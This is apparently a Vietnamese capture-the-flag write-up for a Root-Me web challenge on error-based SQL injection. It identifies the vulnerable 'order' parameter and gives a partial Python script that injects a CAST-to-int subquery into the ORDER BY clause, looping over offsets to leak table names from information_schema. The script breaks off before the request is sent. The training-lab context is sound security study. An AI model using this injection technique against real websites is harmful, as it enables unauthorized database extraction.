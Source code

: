 ![image](https://hackmd.io/_uploads/HJgsJE-bke.png)


## SQL injection - Error

Như đề bài -> khi ta vào trang web có 2 page là login và contents thử fuzz chức năng login có vẻ không có sqli được -> chuyển hướng qua pages contents

![image](https://hackmd.io/_uploads/BkbyofbZJg.png)

sau khi thử 2 param thì order có sinh ra lỗi -> có vẻ sink nằm ở đây
-> dùng cast as int với string để sql trả ra error

```
import requests
import re

session = requests.Session()

# URL mẫu với format string cho OFFSET
base_url = "http://challenge01.root-me.org:80/web-serveur/ch34/?action=contents&order=asc, CAST((select table_name from information_schema.tables limit 1 OFFSET {offset}) AS int)--"
cookies = {"PHPSESSID": "15ad3f4448ad899ad5edab914068910a"}

# Lặp qua offset từ 1 đến 70
for offset in range(0, 71):
    url = base_url.format(offset=offset)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:131.0) Gecko/20100101 Firefox/131.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8",
        "Accept-Language": "en-US,en;q=0.5",
        "Accept-Encoding": "gzip, deflate, br",
        "Connection": "close",
        "Upgrade-Insecure-Requests": "1",
        "Priority": "u=0, i"
    }

